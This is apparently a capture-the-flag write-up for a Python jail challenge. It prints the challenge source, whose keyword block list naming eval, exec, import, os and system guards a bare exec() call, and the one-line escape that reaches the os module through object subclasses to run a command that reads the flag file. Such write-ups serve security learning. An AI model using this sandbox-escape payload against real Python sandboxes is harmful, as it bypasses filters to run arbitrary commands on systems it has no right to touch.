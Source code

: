 The challenge is composed of a python escape shell. When connecting to the server you are dropped into a python shell, but there are restrictions to excaping.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus@host:~/$ nc prob.vulnerable.kr 20001
Hi! Welcome to pyjail!
========================================================================
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")
    print(open(__file__).read())
    print("========================================================================")
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("No!!!")
            return;
    else:
        exec(text)
if __name__ == "__main__":
    main()
========================================================================
RUN
>>> o = {x.__name__:x for x in object.__subclasses__()}['StreamReaderWriter'].__init__.__globals__['sys'].modules['o'+'s'];o.spawnlp(o.P_WAIT, 'cat', 'cat', './home/python_jail/flag')
KorNewbie{H311o_h0w_@r3_y0u_d0lng?}

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
